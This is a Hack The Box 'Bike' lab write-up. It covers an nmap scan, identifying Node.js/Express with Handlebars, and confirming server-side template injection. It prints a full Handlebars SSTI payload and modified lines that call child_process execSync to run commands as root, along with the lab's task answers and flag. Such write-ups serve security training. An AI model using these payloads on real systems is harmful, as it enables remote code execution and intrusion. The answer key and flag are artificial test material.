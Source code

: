 # Bike
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Bike 
* Topic: SMB, Javascript, SSTI
* Difficulty: Very easy
* Date: 16-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high. 
 - **22,80**
2. What software is running the service listening on the http/web port identified in the first question? 
- **node.js**
3. What is the name of the Web Framework according to Wappalyzer? 
- **express**
4. What is the name of the vulnerability we test for by submitting {{7*7}}?
- **Server Side Template Injection**
5. What is the templating engine being used within Node.JS?
- **Handlebars**
6. What is the name of the BurpSuite tab used to encode text? 
- **decoder**
7. In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use? 
- **URL**
8. When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error? 
- **require**
9. What variable is the name of the top-level scope in Node.JS? 
- **Global**
10. By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user? 
 - **root**

---
## Flag:
Nmap scan:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.97.64 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 18:19 EDT
Nmap scan report for 10.129.97.64
Host is up (0.061s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Node.js (Express middleware)
|_http-title:  Bike 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 11.97 seconds
```

It's hosting ssh on port 22 and a web interface on port 80. Upon inspection, the web page is under construction. We can input an e-mail address and get updates on its progress. If we do so, we get a message back containing the e-mail we gave as input.

![](./attachments/Pasted%20image%2020220416012808.png)

This might be vulnerable to multiple kinds of attack.

We can try to find out more about the site using the browser extension called Wappalyzer.

![](./attachments/Pasted%20image%2020220416160703.png)

Like nmap, this extension confirms that the site is written in Node.js and that the web framework is Express.  

Since Node.js (and Python) websites often use template engines to display information to their users, they are also often vulnerable to SSTI attacks. Therefore, we will try to explore this path further.

[HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) provides some great information on how to exploit multiple different types of template engines.

Now we need to find out if the site is indeed vulnerable. We would also like to find out which template engine is being used so we in the end can craft a payload for it.

According to this image from the article, we can follow the tree structure to try and find out what engine is running.

![](./attachments/Pasted%20image%2020220416170535.png)

First, we will submit `${7*7}`. It doesn't get executed though and is just reflected back at us like the e-mail address.

![](./attachments/Pasted%20image%2020220416171325.png)

Therefore, `{{7*7}}` is next in line. When submitted, we get an error. 

This is not bad at all, though. Clearly, our input got interpreted instead of just being reflected back a us. This means that we just confirmed that the site *is* vulnerable to SST injections.

Furthermore, the error message provides us with some valuable information. Handlebars are being used as the Template Engine, and it is running as root.

![](./attachments/Pasted%20image%2020220416014612.png)

We need to try some different inputs, Burp Suite's repeater function can make this a lot easier.

Right click anywhere in the background of the intercepted request, then repeater.

![](./attachments/Pasted%20image%2020220416174154.png)

In the repeater tab we can now see the requests, if we click send we can see the server response on the right side of the window.

At the bottom of our request, we can see the input we made, although a bit distorted due to URL encoding.

![](./attachments/Pasted%20image%2020220416174858.png)

In the [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) article there is a Handlebars section, in it, we find a payload.

```
{{#with "s" as |string|}}
	{{#with "e"}}
		{{#with split as |conslist|}}
			{{this.pop}}
			{{this.push (lookup string.sub "constructor")}}
			{{this.pop}}
			{{#with string.split as |codelist|}}
				{{this.pop}}
				{{this.push "return require('child_process').exec('whoami');"}}
				{{this.pop}}
				{{#each conslist}}
					{{#with (string.sub.apply 0 codelist)}}
						{{this}}
					{{/with}}
				{{/each}}
			{{/with}}
		{{/with}}
	{{/with}}
{{/with}}
```

This looks very complicated, but we will only really be focusing on the following line, the rest is just 'delivery' code.

`{{this.push "return require('child_process').exec('whoami');"}}`

It tries to execute the `whoami` command on the server.

Before sending the payload, though, we need to encode it in URL encoding. With Burp's decode feature, can do this in seconds.

![](./attachments/Pasted%20image%2020220416180907.png)

Paste the URL encoding into the request.

![](./attachments/Pasted%20image%2020220416181027.png)

And send it.

We receive an error message back.

![](./attachments/Pasted%20image%2020220416183034.png)

Require is not defined. It means that we cannot use require in our injection. Thankfully, according to the [documentation](https://nodejs.org/api/globals.html) on Node.js there might be a `process` object available. 

We need to edit our line to:

`{{this.push "return process;"}}`

Then re-encode and send like before.

This time we don't get an error.

![](./attachments/Pasted%20image%2020220416184411.png)

Great, the `[object process]` has been returned. This is handling the current Node.js process. We can try to load a module through it, possibly allowing us to use require again. We will utilize the `'child_process'` module since it has access to executing system commands. We will edit our line to:

`{{this.push "return process.mainModule.require('child_process');"}}`

![](./attachments/Pasted%20image%2020220416232954.png)

It worked, the command executed without errors. 

Now we can try and execute an actual command like `whoami` by changing the line to:

`{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}`

![](./attachments/Pasted%20image%2020220416233853.png)

That's it! We got root. Now we just need to rinse and repeat for every command we want to execute in order to find the flag.

`{{this.push "return process.mainModule.require('child_process').execSync('cd .. ; cat flag.txt');"}}`

Did it. 

![](./attachments/Pasted%20image%2020220416235105.png)


**Flag:** `6b258d726d287462d60c103d0142a81c`

---
**Tags:** [[HackTheBox]]